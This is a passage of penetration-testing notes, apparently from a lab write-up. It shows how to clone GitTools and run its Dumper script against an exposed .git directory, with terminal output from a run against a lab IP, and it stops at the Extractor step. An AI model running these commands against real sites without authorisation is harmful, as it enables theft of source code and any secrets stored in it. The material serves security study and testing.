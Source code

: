 **GitTools**:

> GitTools is a collection of Python scripts designed to download and extract a git repository from a website.

```
git clone https://github.com/internetwache/GitTools.git
cd GitTools
```

> **Dumper**: To download the `.git` folder.

```
cd Dumper
./gitdumper.sh http://target.com/.git/ /path/to/download/
```

```
cybersoldier@parrot]─[~/Desktop/updown]
└──╼ $../tools/GitTools/Dumper/gitdumper.sh http://10.10.11.177/dev/.git/ .
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating ./.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[+] Downloaded: packed-refs
[-] Downloaded: refs/heads/master
[+] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[+] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[-] Downloaded: objects/01/0dcc30cc1e89344e2bdbd3064f61c772d89a34
[-] Downloaded: objects/00/00000000000000000000000000000000000000
```

> **Extractor**: To extract the downloaded repository and reconstruct the directory structure.
